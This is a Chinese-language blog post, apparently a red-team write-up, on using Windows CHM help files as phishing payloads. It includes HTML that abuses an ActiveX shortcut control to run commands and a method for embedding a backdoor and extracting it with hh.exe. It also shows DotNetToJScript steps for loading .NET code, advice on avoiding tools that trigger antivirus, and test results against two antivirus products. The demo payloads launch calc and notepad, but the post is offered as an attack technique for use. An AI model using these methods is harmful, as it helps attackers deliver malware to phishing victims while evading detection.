 ```yaml
---
layout: post
title: "使用CHM文件进行钓鱼"
date: 2020-01-30 17:56:19 +0800
categories: apt
---
```

进行钓鱼选择合适的payload非常重要，使用一些容易让人放松警惕的文件格式可以大大提高钓鱼的成功率。CHM是微软推出的基于HTML的帮助文件系统，被 IE 浏览器支持的JavaScript, VBScript, ActiveX,等，CHM同样支持。因此使用CHM作为钓鱼的payload非常合适。本文总结了两种基于CHM执行命令的方式。

# 使用com控件命令执行

根据@ithurricanept的twitter

![](/assets/images/20200130165102.png)

<https://twitter.com/ithurricanept/status/534993743196090368>

使用了js调用com控件执行命令

源码如下：

```html
<!DOCTYPE html><html><head><title>Mousejack replay</title><head></head><body>
command exec 
<OBJECT id=x classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=1 height=1>
<PARAM name="Command" value="ShortCut">
 <PARAM name="Button" value="Bitmap::shortcut">
 <PARAM name="Item1" value=',calc.exe'>
 <PARAM name="Item2" value="273,1,1">
</OBJECT>
<SCRIPT>
x.Click();
</SCRIPT>
</body></html>
```

## POC

使用HTML Help Workshop

<http://microsoft.com/en-us/download/details.aspx?id=21138>

创建一个新的project，添加文件后进行编译

![](/assets/images/1580212823088.png)


测试：


![](/assets/images/1580212859994.png)


## 利用

实际测试的时候注意到了以下几点：

- 执行命令的时候注意传入的参数与程序名需要用逗号隔开，参数与参数之间不需要。

- 考虑到进行敏感操作会导致杀软提示，因此尽量避免使用powershell、bitsadmin、certutil、cscript等。
- 通过cmd执行命令也属于敏感操作，因此使用多个控件依次执行命令。

在搜索的过程中发现.chm文件的默认程序hh.exe具有decompile的功能，可以将打包进chm的文件释放出来

```
HH.EXE -decompile D:/xTemp/decompile-folder C:/xTemp/XMLconvert.chm
```

因此可以将后门程序一起打包进chm文件中，运行时调用hh.exe释放chm中的后门程序再执行。

测试：

使用360测试的时候效果不太理想，在联网情况下使用hh.exe decompile会被拦截，断网情况下没有问题。

使用火绒测试没有任何拦截。

# 使用js加载.net

既然可以利用chm执行js，那为什么不内嵌.net和dll呢？

<https://github.com/tyranid/DotNetToJScript>

## POC

编写一个.net dll

```csharp
namespace ClassLibrary1
{

    public class Class1
    {
        public Class1()
        {
            /* Start notepad */
			Process.Start("notepad.exe");
        }
    }
}
```

生成js脚本

```
DotNetToJScript.exe -o 1.js ClassLibrary1.dll -c ClassLibrary1.Class1
```

执行js脚本


![](/assets/images/1580376712378.png)


## 利用

本来想直接加载shellcode上线，但是有问题，因为对.net不了解所以只能放弃了。。。

最后还是下载后门程序然后执行

测试：

美中不足的是使用js加载.net会有启用activeX控件的警告，必须点“是”之后才能加载。

360火绒均不拦截

![](/assets/images/20200130173719.png)
